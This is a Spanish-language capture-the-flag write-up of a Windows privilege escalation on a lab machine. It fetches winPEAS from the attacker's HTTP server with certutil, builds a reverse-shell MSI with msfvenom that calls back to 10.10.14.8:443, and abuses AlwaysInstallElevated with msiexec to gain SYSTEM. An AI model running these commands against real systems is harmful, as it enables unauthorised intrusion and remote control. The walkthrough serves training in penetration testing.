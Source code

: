 ```bash
whoami
whoami /priv
whoami /all
```

Aqui no vemos nada de interesante.

```bash
cd c:\
cd PROGRA~1
dir
cd ..
cd PROGRA~2
dir
```

Investigamos un poco pero no vemos nada muy interesante. Decidimos lanzarle un WinPEAS

#### Analisis de vulnerabilidad Privesc con WINPEAS {-}

```bash
cd c:\Windows\Temp
mkdir EEEE
cd EEEE
```

Descargamos el 
```bash
 winpeasx64.exe 
```
 desde [https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASx64.exe](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASx64.exe).

```bash
cd content
cp /home/s4vitar/Descargas/firefox/winPEASx64.exe .
python3 -m http.server 80
```

Lo descargamos desde la maquina victima y lo lanzamos.

```bash
certutil.exe -f -urlcache -split http://10.10.14.8/winPEASexe.exe winPEAS.exe
winPEAS.exe
```

Vemos algo interressante en Checking AlwaysInstallElevated

```{r, echo = FALSE, fig.cap="privesc hklm hkcu vuln", out.width="90%"}
knitr::include_graphics("images/love-hklm-hkcu.png")
```


![love-hklm-hkcu](/assets/images/love-hklm-hkcu.png) 
    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f msi -o reverse.msi
    ```

1. lo enviamos a la maquina victima con el servidor http de python
1. nos ponemos en escucha por el puerto 443
1. lo ejecutamos desde la maquina victima

    ```bash
    msiexec /quiet /qn /i reverse.msi
    ```

Ya estamos a dentro con el usuario nt authority\system y podemos ver la flag.